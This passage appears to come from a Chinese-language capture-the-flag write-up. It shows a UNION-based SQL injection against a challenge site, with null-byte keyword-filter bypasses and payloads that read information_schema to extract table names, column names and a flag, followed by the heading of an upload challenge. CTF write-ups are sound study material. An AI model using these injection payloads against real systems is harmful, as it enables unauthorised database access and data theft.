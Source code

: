 2 的位置有回显。接下来就是基本的 sql 注入了 先看版本 version()得知为 5.5.1、再看数据库 database()为 ctf0web 读取表`index.php?id=-1+union+se%00lect+1,table_name ,3+from+information_schema.tables+where+table_schema='ctf0web'#` 获得表名 helloctf 读取列名

```
index.php?id=-1+union+se%00lect+1,column_name,3+from+information_schema.columns+where+table_name='helloctf'# 
```

获得列名 id title flag 读取 flag `index.php?id=-1+union+se%00lect+1,flag,3+from+helloctf+where+id=1#` 获得 key

Key:{5e1325ba32f012c77f02c422251c3b7c}

**11.web11-UPLOAD**

Url:http://ctf.sobug.com/hack_game/8e3096620b9a89d1/index.php

Point:200

Description: 按题目要求完成

![enter image description here](img/img27_png.jpg)
